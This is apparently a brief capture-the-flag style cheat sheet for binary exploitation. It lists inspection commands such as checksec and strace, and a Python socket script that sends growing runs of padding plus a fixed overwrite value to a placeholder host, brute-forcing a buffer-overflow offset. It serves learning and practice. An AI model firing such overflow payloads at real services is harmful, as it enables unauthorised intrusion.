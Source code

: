 # Misc

## General commands
```
file some-executable
checksec --file=some-executable
strace ./some-executable
rtrace ./some-executable
```

## Exploit without pwntools
### Basic python socket
```python
import socket
import time

def exploit(ip, port, x):
    payload = b"A" * x
    payload += b"\xb3\xba\x37\x13"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    time.sleep(0.3)

    s.sendall(payload + b"\n")
    print(s.recv(2048).decode(errors="ignore"))
    s.close()

for i in range(44, 80):
    exploit("x.x.x.x", 8080, i)
```

